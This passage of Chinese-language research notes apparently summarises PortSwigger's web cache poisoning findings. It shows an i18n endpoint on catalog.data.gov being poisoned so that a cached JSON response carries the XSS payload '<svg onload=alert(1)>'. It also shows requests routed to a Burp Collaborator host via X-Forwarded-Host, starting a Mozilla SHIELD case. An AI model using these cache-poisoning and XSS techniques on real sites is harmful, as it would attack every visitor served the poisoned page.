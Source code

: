 ```
GET /api/i18n/en HTTP/1.1
Host: id.burpcollaborator.net
```

這表示，在某個地方
- 有 JS code 使用 `data-site-root` attri 來載入一些關於 i18n 的 data

我嘗試 fetch `https://catalog.data.gov/api/i18n/en`，想要知道 data format
- 可惜 response 是 empty JSON
- 但，運氣好，把 `en` 改為 `es` 就線索了

```
GET /api/i18n/es HTTP/1.1
Host: catalog.data.gov

HTTP/1.1 200 OK
…
{"Show more":"Mostrar más"}
```

我們能這樣利用
```
GET  /api/i18n/en HTTP/1.1
Host: portswigger-labs.net

HTTP/1.1 200 OK
...
{"Show more":"<svg onload=alert(1)>"}
```

這樣，所有看到 `Show more` 頁面的人，就會受到攻擊  


### Hijacking [Mozilla SHIELD](https://wiki.mozilla.org/Firefox/Shield)  
前面測試 `'X-Forwarded-Host` match/replace 時，另外收到一個神秘的訊息

```
GET /api/v1/recipe/signed/ HTTP/1.1
Host: xyz.burpcollaborator.net
User-Agent: Mozilla/5.0 … Firefox/57.0
Accept: application/json
origin: null
X-Forwarded-Host: xyz.burpcollaborator.net
```

作者除了之前研究 [CORS vulnerability](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties) 時，遇過 `null` 的 origin 之外
- 之前從來沒見過 browser 發出**小寫** 的 `Origin` header
- 罪魁禍首是 Firefox 

Firefox 試圖獲取一份「recipes」列表，作為 SHIELD 系統的一部分
- 用於默認安裝 extension 以用於 marketing 和 research
  - 該系統曾因 forcibly distributing `Mr Robot` extension 而聞名，引起使用者的強烈不滿
    - https://www.cnet.com/news/privacy/mozilla-backpedals-after-mr-robot-firefox-misstep/
